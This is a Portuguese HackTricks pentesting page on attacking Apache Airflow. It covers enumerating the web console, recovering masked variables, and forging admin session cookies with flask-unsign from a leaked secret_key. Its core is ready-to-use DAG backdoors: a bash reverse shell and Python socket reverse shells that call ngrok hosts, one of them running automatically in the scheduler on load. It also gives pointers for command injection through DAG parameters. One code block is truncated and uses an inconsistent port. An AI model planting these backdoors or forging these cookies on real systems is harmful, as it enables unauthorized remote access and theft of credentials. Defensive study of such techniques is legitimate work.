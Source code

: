 # Segurança do Apache Airflow

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informações Básicas

[**Apache Airflow**](https://airflow.apache.org) serve como uma plataforma para **orquestrar e agendar pipelines de dados ou fluxos de trabalho**. O termo "orquestração" no contexto de pipelines de dados significa o processo de organizar, coordenar e gerenciar fluxos de trabalho de dados complexos originados de várias fontes. O objetivo principal desses pipelines de dados orquestrados é fornecer conjuntos de dados processados e consumíveis. Esses conjuntos de dados são amplamente utilizados por uma miríade de aplicações, incluindo, mas não se limitando a, ferramentas de inteligência de negócios, ciência de dados e modelos de aprendizado de máquina, todos fundamentais para o funcionamento de aplicações de big data.

Basicamente, o Apache Airflow permitirá que você **agende a execução de código quando algo** (evento, cron) **acontecer**.

## Laboratório Local

### Docker-Compose

Você pode usar o **arquivo de configuração docker-compose de** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) para lançar um ambiente docker apache airflow completo. (Se você estiver no MacOS, certifique-se de dar pelo menos 6GB de RAM para a VM do docker).

### Minikube

Uma maneira fácil de **executar o apache airflow** é rodá-lo **com minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Configuração do Airflow

O Airflow pode armazenar **informações sensíveis** em sua configuração ou você pode encontrar configurações fracas em vigor:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## RBAC do Airflow

Antes de começar a atacar o Airflow, você deve entender **como as permissões funcionam**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Ataques

### Enumeração da Console Web

Se você tem **acesso à console web**, você pode ser capaz de acessar algumas ou todas as seguintes informações:

* **Variáveis** (Informações sensíveis personalizadas podem ser armazenadas aqui)
* **Conexões** (Informações sensíveis personalizadas podem ser armazenadas aqui)
* Acesse-as em `http://<airflow>/connection/list/`
* [**Configuração**](./#airflow-configuration) (Informações sensíveis como a **`secret_key`** e senhas podem ser armazenadas aqui)
* Listar **usuários & papéis**
* **Código de cada DAG** (que pode conter informações interessantes)

### Recuperar Valores de Variáveis

Variáveis podem ser armazenadas no Airflow para que os **DAGs** possam **acessar** seus valores. É semelhante a segredos de outras plataformas. Se você tem **permissões suficientes**, você pode acessá-las na GUI em `http://<airflow>/variable/list/`.\
Por padrão, o Airflow mostrará o valor da variável na GUI, no entanto, de acordo com [**isto**](https://marclamberti.com/blog/variables-with-apache-airflow/), é possível definir uma **lista de variáveis** cujo **valor** aparecerá como **asteriscos** na **GUI**.

![](<../../.gitbook/assets/image (79).png>)

No entanto, esses **valores** ainda podem ser **recuperados** via **CLI** (você precisa ter acesso ao DB), **execução de DAG arbitrária**, **API** acessando o endpoint de variáveis (a API precisa ser ativada), e **até mesmo a própria GUI!**\
Para acessar esses valores da GUI, basta **selecionar as variáveis** que deseja acessar e **clicar em Ações -> Exportar**.\
Outra maneira é realizar um **bruteforce** ao **valor oculto** usando o **filtro de pesquisa** até obtê-lo:

![](<../../.gitbook/assets/image (30).png>)

### Escalonamento de Privilégios

Se a configuração **`expose_config`** estiver definida como **True**, a partir do **papel de Usuário** para cima, pode-se **ler** a **configuração na web**. Nesta configuração, a **`secret_key`** aparece, o que significa que qualquer usuário com este valor válido pode **criar seu próprio cookie assinado para se passar por qualquer outra conta de usuário**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### Backdoor em DAG (RCE no worker do Airflow)

Se você tem **acesso de escrita** ao local onde os **DAGs são salvos**, você pode simplesmente **criar um** que enviará para você um **reverse shell.**\
Observe que esse reverse shell será executado dentro de um **container do worker do airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### Backdoor em DAG (RCE no agendador do Airflow)

Se você configurar algo para ser **executado na raiz do código**, no momento em que isto é escrito, será **executado pelo agendador** alguns segundos após ser colocado dentro da pasta dos DAGs.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### Criação de DAG

Se você conseguir **comprometer uma máquina dentro do cluster DAG**, você pode criar novos **scripts DAGs** na pasta `dags/` e eles serão **replicados no restante das máquinas** dentro do cluster DAG.

### Injeção de Código em DAG

Quando você executa um DAG pela GUI, você pode **passar argumentos** para ele.\
Portanto, se o DAG não for codificado corretamente, ele pode ser **vulnerável a Injeção de Comando.**\
Foi o que aconteceu neste CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Tudo o que você precisa saber para **começar a procurar por injeções de comando em DAGs** é que os **parâmetros** são **acessados** com o código **`dag_run.conf.get("param_name")`**.

Além disso, a mesma vulnerabilidade pode ocorrer com **variáveis** (note que com privilégios suficientes você poderia **controlar o valor das variáveis** na GUI). Variáveis são **acessadas com**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Se forem usados, por exemplo, dentro de um comando bash, você poderia realizar uma injeção de comando.

<details>

<summary><strong>Aprenda hacking em AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
